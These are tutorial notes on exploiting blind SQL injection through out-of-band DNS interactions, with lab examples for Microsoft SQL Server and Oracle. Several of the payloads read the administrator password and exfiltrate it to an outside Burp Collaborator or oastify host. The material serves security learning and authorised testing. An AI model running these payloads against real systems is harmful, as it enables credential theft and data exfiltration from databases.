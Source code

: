 ## Exploiting blind SQLi using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example (time-delays) but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

---
The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain

```http
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

> [!example] Lab Example
> Lab Example DNS lookup exploiting XXE (Picture below, not code)
> ```sql
> '+UNION+SELECT+EXTRACTVALUE(xmltype('<(percent-sign)3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//aguwc4wrt8qnbkrjnl2haga6exko8fw4.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
> ```

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. 

For example (MsSQL):

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```http
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

> [!example] Lab Example. Fetching administrator password using DNS lookup with data exfiltration:
> Make sure to replace percent-sign with %
> 
> ```sql
> '+UNION+SELECT+EXTRACTVALUE(xmltype('<(percent-sign)3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.aguwc4wrt8qnbkrjnl2haga6exko8fw4.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
> ```

> [!important] Important
> **Do Not Forget** to put your query inside brackets (Your Query Here)